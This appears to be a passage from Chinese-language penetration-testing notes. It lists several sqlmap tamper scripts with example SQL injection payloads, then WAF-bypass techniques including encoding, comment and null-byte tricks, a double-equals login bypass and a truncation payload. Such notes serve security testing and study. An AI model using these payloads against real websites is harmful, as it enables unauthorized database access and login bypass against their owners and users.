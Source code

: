 ```
Input: SELECT id FROM users 
Output: SELECT\rid\tFROM\nusers 

(31) unionalltounion.py 以”union all”替换”union” 
Example: 
Input: -1 UNION ALL SELECT 
Output: -1 UNION SELECT 

(32) unmagicquotes.py 以”%bf%27”替换单引号，并在结尾添加注释”--” 
Example: 
Input: 1' AND 1=1 
Output: 1%bf%27 AND 1=1--%20 

(33)versionedkeywords.py 对不是函数的关键字条件注释 
Example: 
Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))# 
Output:  1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#
Requirement: 
MySQL 


(34) versionedmorekeywords.py 对关键字条件注释 
Example: 
Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 
Output: 1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))
```

## 绕过
https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI

sql注入绕行waf:；POST ，cookie中转,大小写混合，替换关键字，使用编码(16进制，hex编码)，使用注释，等价函数和命令，使用特殊符号，http参数控制，pwn ,select \`version()\` %0A,%20
sel%00ect,%20=>空格,/!**/ => 空格 异常method，`~ ！+ -`连接符

### 双等号绕过
username=p'='&password=p'='  

### 截断
username=a'+0;%00&password=


## 其他
